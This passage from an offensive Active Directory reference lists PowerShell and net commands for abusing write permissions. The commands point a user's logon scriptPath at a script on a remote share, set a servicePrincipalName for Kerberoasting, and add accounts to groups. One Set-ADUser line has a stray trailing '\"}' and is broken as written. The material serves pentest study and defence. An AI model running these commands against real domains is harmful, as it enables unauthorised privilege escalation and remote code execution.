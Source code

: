 ###### User - WriteProperty to Script-Path

The `RSAT`'s `Set-ADObject` and `PowerView`'s `Set-DomainObject` can be used to
modify the properties of a security object.

```
Set-ADObject -Identity <SamAccountName | DistinguishedName | SID | GUID> [-Add / -Replace] @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
Set-ADObject -Server <DC_HOSTNAME | DC_IP> -Credential <PS_CREDENTIALS> -Identity <SamAccountName | DistinguishedName | SID | GUID> [-Add / -Replace] @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}

Set-DomainObject -Identity <SamAccountName | DistinguishedName | SID | GUID> -Set @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
Set-DomainObject -Server <DC_HOSTNAME | DC_IP> -Credential <PS_CREDENTIALS> -Identity <SamAccountName | DistinguishedName | SID | GUID> -Set @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
```

###### User - WriteProperty to servicePrincipalName

`RSAT`'s `Set-ADUser` can be used to define or update the specified user
servicePrincipalName.

```
# SPN example: SQLservice\accounting.corp.contoso.com:1456
Set-ADUser -Identity <SamAccountName | DistinguishedName | SID | GUID> -ServicePrincipalNames @{Add="<SPN>"}"}
```

###### Group - GenericAll / GenericWrite / AddMembers / AllExtendedRights / WriteProperty to all properties / WriteProperty to the member or Self-Membership properties / Self (Self-Membership)

Generic Write access grants the ability to write to any non-protected attribute
on the target object, including "members" for a group.

`net group`, `RSAT`'s `Add-ADGroupMember`, and `PowerView`'s
`Add-DomainGroupMember` can be used to add others security objects to the
specified group.

```
net group "<GROUP>" <USERNAME> /add /domain

Add-ADGroupMember -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
Add-ADGroupMember -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PS_CREDENTIALS> -Identity "<GROUP>" -Members <USERNAME>

Add-DomainGroupMember -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
Add-DomainGroupMember -Domain <DOMAIN> -Credential <PS_CREDENTIALS> -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
```

###### User / group / GPO - WriteOwner
